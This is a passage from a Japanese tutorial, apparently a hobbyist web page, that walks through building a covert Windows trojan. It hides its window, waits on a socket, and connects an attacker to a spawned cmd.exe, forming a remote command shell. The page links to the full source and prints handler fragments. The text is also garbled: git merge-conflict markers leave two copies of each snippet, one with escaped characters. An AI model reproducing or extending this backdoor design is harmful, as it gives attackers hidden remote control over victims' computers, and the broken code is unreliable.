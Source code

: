 　ではこれまでのピースを集めてきます。基本的にサーバとして起動させます。
もちろんこっそりと起動させなければいけないのでWindowは非表示にしなければ
なりませんがこれはShowWindowなどをコメントアウトすればよいので簡単です。
起動させたらまずはソケットを開きacceptで待ちます。ポートはどこでよいです
ので適当に決めてください。接続要求がきたら（攻撃者が接続してくる）Create
Processにより新しいプロセスを作りcmd.exe（コマンドプロンプト）を実行しま
す。そしてコマンドプロンプトの標準入出力とソケットをパイプで繋ぎます。こ
れで攻撃者側から送信されたデータはそのままコマンドプロンプトの標準入力に
渡さるようにします。標準出力のデータはスレッドを利用し、リアルタイムでク
ライアント（攻撃者）に渡されるようにします。あとはやりたい放題！　わしょ
ーい！　...と、概略はこんな感じです。ではソースを見てください。

<<<<<<< HEAD
+--- trojan01.cpp ---------------------------------+
| http://kenjinet.s26.xrea.com/trojan/trojan01.cpp |
+--------------------------------------------------+

-----
case WM_CREATE:
    if((sListen = WaitConnect(hWnd)) == -1){
        DestroyWindow(hWnd);
    }
    Data.acceptFlag = TRUE;
    break;
-----
=======
+\-\-\- trojan01.cpp \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
| http://kenjinet.s26.xrea.com/trojan/trojan01.cpp |
+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+

\-\-\-\-\-
case WM_CREATE:
    if((sListen \= WaitConnect(hWnd)) \=\= \-1){
        DestroyWindow(hWnd);
    }
    Data.acceptFlag \= TRUE;
    break;
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　まず最初に、サーバとして稼動させるためにポートを開きます。Data.acceptF
lagはクライアントが接続できるかどうかで、FALSEなら「できない」TRUEなら「
できる」です。逆にいえばFALSEなら接続状態であり、TRUEなら待ち状態です。最
初は待ちなのでTRUEにします。WaitConnect関数はシンプルなので説明はしません。
単純にサーバとしてソケットを作成してるだけです。

<<<<<<< HEAD
-----
case FD_ACCEPT:
    AcceptConnect(sListen, &Data);
    break;
-----
=======
\-\-\-\-\-
case FD_ACCEPT:
    AcceptConnect(sListen, &Data);
    break;
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
